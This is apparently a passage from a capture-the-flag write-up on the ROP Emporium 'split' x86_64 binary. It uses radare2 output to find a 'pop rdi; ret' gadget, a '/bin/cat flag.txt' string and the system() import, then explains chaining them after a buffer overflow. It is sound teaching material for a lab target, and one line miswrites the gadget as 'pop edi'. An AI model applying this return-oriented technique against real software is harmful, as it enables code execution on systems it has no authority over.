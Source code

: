 ```
[0x004005b0]> /R pop rdi; ret;
  0x004007c3                 5f  pop rdi
  0x004007c4                 c3  ret
```

The `pop rdi; ret;` gadget is located at memory address `0x004007c3`.

Now, let's analyze the binary's strings:

```
[0x004005b0]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

`/bin/cat flag.txt` is located at memory address `0x00601060`. This string is located in the `.data` section of the ELF, meaning that it won't get relocated upon execution.

Now, let's analyze the binary's function imports:

```
[0x004005b0]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00000000 WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf

```

Since the binary imports the `system` function call, we can jump to address`0x00400560` in the PLT.


Excellent! We should have all the information we need to capture the flag now!

After overflowing the buffer, RIP will redirect its execution flow to a memory address pointing to a `pop edi; ret;` gadget in the ELF.
Since the memory address pointing to "/bin/cat flag.txt" will be the next value on the stack, it will get popped into the RDI register, hence setting the first argument for `system()`. *Note that this calling convention is specific to x64 assembly.*
Once we return from the first ROP gadget, the next memory address on the stack will point to `system()` and execution will be redictected to that function, dumping the flag.
